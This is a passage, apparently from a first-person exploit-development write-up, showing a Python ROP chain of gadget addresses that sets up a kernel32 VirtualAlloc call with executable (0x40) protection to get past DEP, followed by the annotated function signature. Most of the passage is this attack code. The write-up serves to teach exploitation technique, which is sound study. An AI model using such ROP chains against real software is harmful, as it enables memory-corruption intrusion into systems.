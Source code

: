 Next step, I try to call VirtualAlloc method.
```
rop = struct.pack('<L',0x41414141)
rop += struct.pack('<L',0x1002be41)	# POP EDI # RETN
rop += struct.pack('<L',0x10013483)	# ROP nop

rop += struct.pack('<L',0x10029f02)	# POP ECX # RETN
rop += struct.pack('<L',0xffffffff)	# -1
rop += struct.pack('<L',0x1002e01b)	# INC ECX # MOV DWORD PTR DS:[EDX],ECX # RETN	0
rop += struct.pack('<L',0x1002e01b)	# INC ECX # MOV DWORD PTR DS:[EDX],ECX # RETN	1
rop += struct.pack('<L',0x1002a487)	# ADD ECX,ECX # RETN	2
rop += struct.pack('<L',0x1002a487)	# ADD ECX,ECX # RETN	4
rop += struct.pack('<L',0x1002a487)	# ADD ECX,ECX # RETN	8
rop += struct.pack('<L',0x1002a487)	# ADD ECX,ECX # RETN	16
rop += struct.pack('<L',0x1002a487)	# ADD ECX,ECX # RETN	32
rop += struct.pack('<L',0x1002a487)	# ADD ECX,ECX # RETN	64 --> 0x40

rop += struct.pack('<L',0x10031912)	# POP EAX # RETN
rop += struct.pack('<L',0x1005d060)	# kernel32.virtualalloc ptr
rop += struct.pack('<L',0x10027f59)	# MOV EAX,DWORD PTR DS:[EAX] # RETN
rop += struct.pack('<L',0x1005bb8e)	# PUSH EAX # ADD DWORD PTR SS:[EBP+5],ESI # PUSH 1 # POP EAX # POP ESI # RETN

rop += struct.pack('<L',0x1002d3c3)	# POP EDX # RETN
rop += struct.pack('<L',0x66666666)
rop += struct.pack('<L',0x10019ee8)	# POP EBX # RETN
rop += struct.pack('<L',0x9999a99a)
rop += struct.pack('<L',0x10029f3e)	# ADD EDX,EBX # POP EBX # RETN 0x10		0x66666666 + 0x9999a99a = 0x100001000
rop += struct.pack('<L',0x10013483)
rop += struct.pack('<L',0x10013483)
rop += struct.pack('<L',0x10013483)
rop += struct.pack('<L',0x10013483)
rop += struct.pack('<L',0x10013483)
rop += struct.pack('<L',0x10013483)

rop += struct.pack('<L',0x10035131)	# POP EBP # RETN
rop += struct.pack('<L',0x100371f5) # CALL ESP

rop += struct.pack('<L',0x10019ee8)	# POP EBX # RETN
rop += struct.pack('<L',0xffffffff)
rop += struct.pack('<L',0x100319d3)	# INC EBX # FPATAN # RETN
rop += struct.pack('<L',0x100319d3)	# INC EBX # FPATAN # RETN

rop += struct.pack('<L',0x10031912)	# POP EAX # RETN
rop += struct.pack('<L',0x90909090)

rop += struct.pack('<L',0x10014720) # PUSHAD # RETN
```

Now I'm successfully setting the argument of VirtualAlloc metod.
```
LPVOID WINAPI VirtualAlloc(         => PTR to VirtualAlloc
#   _In_opt_  LPVOID lpAddress,       => Return Address (Call to ESP) #
#   _In_      SIZE_T dwSize,          => dwSize (0x1)                 #
#   _In_      DWORD flAllocationType, => flAllocationType (0x1000)    #
#   _In_      DWORD flProtect         => flProtect (0x40)             #
# );                                                                  #
```